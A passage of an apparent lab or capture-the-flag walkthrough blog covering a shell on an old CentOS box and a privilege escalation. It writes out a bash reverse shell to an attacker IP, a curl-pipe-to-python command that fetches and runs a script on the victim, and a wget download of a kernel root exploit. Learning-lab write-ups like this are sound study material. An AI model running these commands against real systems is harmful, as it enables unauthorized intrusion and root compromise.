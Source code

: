 <ul>
	<li>bash -i >$ /dev/tcp/10.0.0.128/443 0>&1</li>
</ul>

<p>This resulted in a successful connection back to my listening netcat session:</p>

<p><img alt="" src="https://i.imgur.com/POJePjU.png" style="height:143px; width:534px" /></p>

<hr />
<h2>Privilege Escalation:</h2>

<p>So as I anticipated, I landed on the account running the webpage, in this case, "apache". This account has pretyy low privileges and can&#39;t look at very much or do much, and without a password, using sudo isn&#39;t possible.</p>

<p>Manual enumeration is good to practice, but for this box I wanted to use a new script that I haven&#39;t used before. It&#39;s a python script that does a lot of basic priv esc checks and presents it in a nice, readable format.</p>

<p><a href="https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py">https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py</a></p>

<p>I downloaded it to the attacking machine, and then hosted an http server on my Kali box with</p>

<ul>
	<li>python -m SimpleHTTPServer 80</li>
</ul>

<p>This starts up an HTTP server on port 80 (this module defaults to 8080 if you don&#39;t provide a port number), and will serve the files that are <strong>in the directory that you launched the server from. </strong>I had the victim download it from my attacking machine by changing to the /tmp directory (all accounts have write access in this directory) and running this:</p>

<ul>
	<li>curl 10.0.0.128/linuxprivcheck.py | python</li>
</ul>

<p>I had to pipe it to python because this command just printed the script&#39;s source code to the terminal and didn&#39;t execute.</p>

<p>This script output a LOT of text, and for some reason, I couldn&#39;t get it to properly pipe to "less" or "more", so I could only read the last bit, but luckily, that was enough.</p>

<p><img alt="" src="https://i.imgur.com/IDCuClm.png" /></p>

<p>This shows us some potential exploits that could be used on the system for priv esc. I usually shy away from kernel exploits, because they can take the box down if they aren&#39;t written well, but this box is running CentOS 4.5, which is quite old, so I&#39;m a bit more willing to rely on well-known and well-tested exploits.</p>

<p>The one I ended up using was <a href="https://www.exploit-db.com/exploits/9479">ring0 Root Exploit.</a></p>

<p>Again I started up the python HTTP server, and downloaded it to the victim:</p>

<ul>
	<li>wget 10.0.0.128/9479.c</li>
</ul>
